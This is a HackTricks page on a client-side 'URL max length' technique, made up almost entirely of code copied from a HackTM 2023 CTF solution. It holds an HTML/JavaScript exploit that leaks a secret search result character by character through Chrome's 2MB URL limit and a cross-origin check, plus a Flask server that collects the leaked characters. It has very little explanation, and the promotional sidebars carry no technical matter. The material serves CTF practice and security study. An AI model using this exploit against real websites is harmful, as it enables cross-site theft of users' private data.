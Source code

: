 # URL Max Length - Client Side

<details>

<summary><strong>HackTricks in</strong> <a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 -</strong> </a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Code copied from [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)

```html
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const leak = async (char) => {
            
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async () => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i = 0; i < CHARSET.length; i++) {
            leak(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()
</script>
</html>
```

Server side:

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

<details>

<summary><strong>HackTricks in</strong> <a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 -</strong> </a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
